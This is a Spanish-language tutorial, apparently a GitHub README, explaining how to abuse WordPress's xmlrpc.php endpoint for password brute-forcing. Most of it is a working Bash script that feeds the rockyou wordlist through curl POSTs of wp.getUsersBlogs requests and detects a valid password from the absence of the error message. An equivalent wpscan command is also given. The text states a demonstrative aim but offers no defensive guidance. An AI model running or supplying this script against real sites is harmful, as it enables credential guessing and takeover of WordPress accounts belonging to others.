 # Descripción

Cómo abusar del archivo **xmlrpc.php** para mediante la creación de un script de Bash aplicar fuerza bruta. El objetivo será demostrar cómo los atacantes pueden utilizar este archivo existente en WordPress para intentar descubrir credenciales válidas y comprometer la seguridad del sitio web.

Para lograrlo, crearemos un script de Bash en el cual emplearemos la herramienta curl para enviar solicitudes XML-RPC al archivo xmlrpc.php del sitio web WordPress. A través del método **wp.getUsersBlogs**, enviaremos una estructura XML que contendrá el nombre de usuario y la contraseña a probar.

En caso de que las credenciales no sean correctas, el servidor responderá con un mensaje de error que indica que las credenciales son incorrectas. Sin embargo, si las credenciales son válidas, la respuesta del servidor será diferente y no incluirá el mensaje de error.

De esta forma, podremos utilizar la respuesta del servidor para determinar cuándo hemos encontrado credenciales válidas y, de esta forma, tener acceso al sitio web de WordPress comprometido.


**El script es equivalente al siguiente comando de wpsscan para fuerza bruta:**

``wpscan --url https://ejemplo.com:80 -U usuario -P /usr/share/wordlists/rockyou.txt``



```bash
	#!/bin/bash

	function ctrl_c(){ 
        echo -e "\n\n[!] Saliendo...\n"
        exit 1
	}
 

	# Ctrl+C
	trap ctrl_c SIGINT


	function createXML(){  
        password=$1
        xmlfile="""
	<?xml version=\"1.0\" encoding=\"UTF-8\"?>
	<methodCall>    
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>USER</value></param>                  <-- *Debemos ingresar el valor del usuario previamente descubierto*
	<param><value>$password</value></param>             
	</params> 
	</methodCall>"""


        echo $xmlfile > file.xml

        response=$(curl -s -X POST "https://ejemplo.com:80/xmlrpc.php" -d@file.xml)  <-- *debemos cambiar la direccion y puerto deseado y el nombre de archivo correspondiente*

        if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then  <-- *el tipo de respuesta según la que nos devuelva la página objetivo*
        echo -e "\n[+] La contraseña para el usuario es $password"
        exit 0
        fi
	}
 
	
	cat /usr/share/wordlists/rockyou.txt | while read password; do      <-- *Cambiaremos la ruta en caso de querer usar otro diccionario*
        createXML $password
	done
```
